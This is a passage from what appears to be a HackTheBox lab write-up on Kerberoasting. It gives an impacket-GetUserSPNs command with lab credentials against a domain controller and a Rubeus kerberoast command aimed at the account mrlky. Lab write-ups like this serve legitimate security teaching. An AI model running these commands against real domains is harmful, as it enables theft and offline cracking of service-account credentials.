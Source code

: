 ```bash
impacket-GetUserSPNs htb.local/amanda:Ashare1972 –dc-ip 10.129.7.164 -request

```

![image36](../resources/e4e716d907ae4aeea64e9fb931c4dc82.png)

It gets the user mrlky because the has a valid SPN set but it can't Kerberoast the user because port 88 isn't exposed externally

- Running netstat, we can see that port 88 is open but only internally (UDP):

![image37](../resources/708893dd2a99422cb06b52288b7f6cc8.png)


![image38](../resources/c54eaf6f85294427bfa1af17d7aac912.png)


![image39](../resources/c073fba66a5e4bef98d6b5ae52ab1442.png)

- To kerberoast locally, we can use Rubeus:

```bash
.\Rubeus.exe kerberoast /user:mrlky

```

